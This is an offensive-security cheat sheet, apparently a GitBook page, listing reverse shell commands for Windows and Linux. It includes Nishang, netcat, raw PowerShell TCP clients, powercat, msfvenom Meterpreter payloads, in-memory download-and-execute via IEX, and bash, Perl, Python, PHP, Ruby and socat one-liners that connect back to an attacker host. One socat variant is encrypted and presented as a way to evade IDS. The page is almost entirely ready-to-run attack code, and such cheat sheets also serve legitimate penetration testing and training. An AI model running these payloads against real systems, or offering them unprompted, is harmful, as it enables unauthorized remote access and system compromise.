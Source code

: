 ```yaml
---
description: >-
  To gain control over a compromised system, an attacker usually aims to gain
  interactive shell access for RCE. A reverse shell is a connection back  that
  means that the victim connects to the attacker.
---
```


# Reverse Sell 🔙

## Windows

### Nishang

[Nishang](https://github.com/samratashok/nishang) is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.

```text
Import-Module .\Invoke-PowershellTcp.ps1
Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PORT]
```

Or you can modify the script and append the following line:

`Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PORT]`

And execute directly from memory:

```text
start /b powershell IEX(New-Object Net.WebClient).downloadString('http://ip-addr:port/Invoke-PowerShellTcp.ps1')
```

{% hint style="danger" %}
Be careful, **migrate** the process to the same machine architecture!
{% endhint %}

### Netcat

Netcat is a network tool that allows through a command interpreter and with a simple syntax to open TCP / UDP ports in a HOST. It's not native from windows, so you need to trasnfer the binary.

```text
nc.exe -e powershell.exe [IP] [PORT]
```

{% hint style="danger" %}
Be careful, **migrate** the process to the same machine architecture!
{% endhint %}

### Powershell

Also we can get a reverse shell without using any external file.

```text
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('ip-addr',port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.T ext.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII ).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$c lient.Close()"
```

### Powercat

Powercat is the netcat version written in powershell. Remember first download the script and import the module.

```text
powercat -c ip-addr -p port -e cmd.exe
```

### Meterpreter

First, we need to create our _shellcode_ with **msfvenom**:

```text
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 --encoder x86/shikata_ga_nai -f exe LHOST=[IP] LPORT=[PORT] > meterpreter.exe
```

After transfer our _shellcode_ to the target machine, we will **start listening** with metasploit at the same port:

```text
msf> use multi/handler
msf> set PAYLOAD windows/meterpreter/reverse_tcp
msf> set LPORT [PORT]
msf> set LHOST [IP]
msf> run
```

When we execute our _shellcode_ we will receive the **meterpreter** in the handler:

```text
.\meterpreter.exe
```

{% hint style="danger" %}
Be careful, **migrate** the process to the same machine architecture!
{% endhint %}

### Migrating the reverse shell

#### From Powershell:

```text
[Environment]::Is64BitOperatingSystem
[Environment]::Is64BitProcess
```

If they don't sahre the same architecture, we will need to create a new Revershell with the appropiate **Powershell path:**

* **For 32 bits:**

`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`

* **For 64 bits:**

`C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe`

#### From Meterpreter:

First we need to **list** all processes:

```text
meterpreter > ps
```

Afther getting the list of all the processs going on we can **migrate** ourselves to some reliable process:

```text
meterpreter > migrate PID
```

## Linux

There are many ways to get a reverse shell in many differents languages and using  many differents binaries. 

### Bash

```text
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Perl

```text
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP

```text
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby

```text
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat

```text
nc -e /bin/sh 10.0.0.1 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### Socat

```text
socat TCP4:10.0.0.1:1234 EXEC:/bin/bash
```

### SSL Socat

Using cryptography helps to evade some types of IDS. First we need to create the certificates in out attacking machine.

```text
openssl req -newkey rsa:2048 -nodes -keyout rev_shell.key -x509 -days 362 -out rev_shell.crt
cat rev_shell.key rev_shell.crt > rev_shell.pem
```

After that on the target machine run socat with OPENSSL:

```text
socat OPENSSL:10.0.0.1:443,cert=rev_shell.pem,verify=0 EXEC:/bin/bash
```

### Improve the rev shell to TTY

```text
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Run to background with `Ctrl + Z`

```text
stty raw -echo;fg
```

{% hint style="info" %}
**Don't use** `tmux` and `rlwrap` if you want better results.
{% endhint %}

#### References:

* [https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/)
* [https://www.sniferl4bs.com/2017/04/hacking-101-reverse-shell-bind-shell.html](https://www.sniferl4bs.com/2017/04/hacking-101-reverse-shell-bind-shell.html)
* [https://securityhacklabs.net/articulo/accediendo-remotamente-a-windows-10-con-metasploit](https://securityhacklabs.net/articulo/accediendo-remotamente-a-windows-10-con-metasploit)
* [https://www.youtube.com/watch?v=fIGvOGrdxyc&t=164s](https://www.youtube.com/watch?v=fIGvOGrdxyc&t=164s)
* [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

